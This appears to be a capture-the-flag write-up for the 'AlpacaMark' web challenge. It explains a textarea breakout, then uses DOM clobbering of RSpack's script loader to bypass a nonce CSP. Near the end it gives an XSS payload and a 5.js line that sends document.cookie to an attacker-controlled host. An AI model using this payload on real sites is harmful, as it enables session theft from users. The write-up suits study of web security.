

# Introduction

alpaca mark is a web client side challenge that is Simple markdown noting taking application with EJS backend.


## Unintended solution

tldr , break out of `<textarea/>` template to get html injection. [RSpack](https://github.com/advisories/GHSA-84jw-g43v-8gjm) third party package is vulnerable to Dom clobbering. 
Use the Dom clobbering to load our own script to allow the csp to get xss.


```JavaScript
app.get("/", (req, res) => {
  const nonce = crypto.randomBytes(16).toString("base64");
  res.setHeader(
    "Content-Security-Policy",
    `script-src 'strict-dynamic' 'nonce-${nonce}'; default-src 'self'; base-uri 'none'`
  );

  const markdown = req.query.markdown?.slice(0, 512) ?? DEFAULT_MARKDOWN;
  res.render("index", {
    nonce,
    markdown,
  });
});
```

Html isn't filtered so there's potential to get xss but the csp is strict and has a random nonce.
 In these kind of scenarios the only way to get xss with a random nonce csp is we have to find a script gadget that will load our own script in.

```html
 <!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width,initial-scale=1.0" />
    <title>AlpacaMark</title>
    <script nonce="<%= nonce %>" src="/main.js" defer></script>
    <link href="/main.css" rel="stylesheet" />
  </head>
  <body>
    <main class="container">
      <h1>AlpacaMark</h1>
      <div id="previewElm"></div>
      <form id="renderElm" action="/" method="get">
        <textarea name="markdown" required><%- markdown %></textarea>
        <button type="submit">Render</button>
      </form>
    </main>
  </body>
</html>
```

Since there isn't hmtl or markdown filtering we can break out of the textarea then include our own Html like this: `</textarea> html injection` . 
No need to close it since the browser will automatically do it when it renders. 

Now we have to find a script gadget which I struggled at first because I couldn't find it in the given source code. 
I noticed that the client side code uses a third party package RSpack.

```JavaScript
import { defineConfig } from "@rspack/cli";  
  
export default defineConfig({  
entry: {  
main: "./client/index.js",  
},  
experiments: {  
css: true,  
},  
devtool: false,
```

I decided to start debugging and looking through the client side code with devtools perhaps we could find a script in there. It was a bit difficult to read and debug since its minified code but I just grepped `script` and set a few breakpoints. 
we do indeed find something :  




In main.js RSpack attempts to load a external script called `5.js` dynamically with this code :


 ```JavaScript
 ( () => {
        r.g.importScripts && (e = r.g.location + "");
        var e, t = r.g.document;
        if (!e && t && (t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            if (n.length)
                for (var s = n.length - 1; s > -1 && (!e || !/^http(s?):/.test(e)); )
                    e = n[s--].src
        }
        if (!e)
            throw Error("Automatic publicPath is not supported in this browser");
        r.p = e = e.replace(/^blob:/, "").replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/")
    }
    )(),
    ```

 The end result here is to note that it automatically determines the base path where assets should be loaded from, based on the location of the currently executing script.


I thought maybe since we have dom clobbering we could use it to insert our own script but looking at this code it actually tries to stop against Dom clobbering: 

```JavaScript
(t.currentScript && "SCRIPT" === t.currentScript.tagName.toUpperCase() && (e = t.currentScript.src),
        !e)) {
            var n = t.getElementsByTagName("script");
            ```
But this isn't fully mitigated! If we clobber `currentScript` the check will fail but will then check all script tags on the page document and load scripts from the base url found in the script tags. 
Also if you look at the html source code we can see that main.js will load after our payload renders because `main.js` is loaded with `defer`. 
So essentially we can hijack `5.js `if we name our script that and once it renders , `main.js` will load after due to using `defer` then RSpack will load our script.


 a payload like this should work :

```JavaScript
</textarea><script src="https://oursite/5.js"></script>
```

in 5.js :
```JavaScript
top.location = 'https://oursite/flag?' + document.cookie 
```

submit that to the admin bot and we should get the flag : `Alpaca{the_DOM_w0rld_is_po11uted_and_clobber3d}`

the intended solution apparently involved a prototype pollution but I'm not sure how that would work in this challenge will have to wait on the author :)